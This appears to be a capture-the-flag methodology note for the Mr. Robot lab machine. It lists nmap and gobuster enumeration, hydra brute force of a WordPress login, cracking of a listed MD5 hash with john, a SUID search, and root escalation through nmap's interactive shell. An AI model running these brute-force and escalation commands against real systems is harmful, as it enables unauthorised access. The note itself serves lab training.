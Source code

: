 # Methodology

## Preparation
```bash
export IP="10.10.183.216"
```

## Port enumeration
```bash
mkdir -p scans/nmap
nmap -v -sC -sV -oN nmap/initial $IP
nmap -v -p- -oN nmap/all_ports $IP
```

## HTTP enumeration
```bash
mkdir -p scans/gobuster
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster/medium_list -x php,sh,cgi,txt,html,js,css,py
```

## Brute force
```bash
# L = Username wordlist
# l = Username
# P = Password list
# p = password

# Command guide
# sudo hydra <Username/List> <Password/List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>"

# Brute forcing username
sudo hydra -L downloads/fsocity.dic -p "sample" $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"

# Brute force password
sudo hydra -l Elliot -P downloads/fsocity.dic $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username"
```

## Reverse Shell
```bash

```

## Password bruteforce
```bash
# Crack MD5 password found using john

# Command guide
# john <filename> --wordlist=<wordlist> --format=<hash format>

# Determine the file hash type using hash-identifier
robot:c3fcd3d76192e4007dfb496cca67e13b
john --wordlist=/usr/share/wordlist/rockyou.txt --format=Raw-MD5 hash.txt

```

## Find SUID binaries
```bash
find / -perm -u=s -type f 2> /dev/null
```

## Privilege escalation
```bash
nmap --interactive
!sh
```

# Comments
-   enumerate ports using nmap
    -   found ports 80 and 443
-   enumerate website pages using gobuster
    -   found /login
-   check for available files in robots.txt
    -   found dic and txt
-   use hydra to brute force login
    -   https://infinitelogins.com/2020/02/22/-how-to-brute-force-websites-using-hydra/
-   create php revershell
    -   ready
-   check home directories
    -   found robot home directory
-   crack password found using john
    -   found password
-   change shell to interactive using python
    -   done
-   change to another user using password found
    -   done
-   find SUID binaries

-   privilege escalation using SUID enabled binaries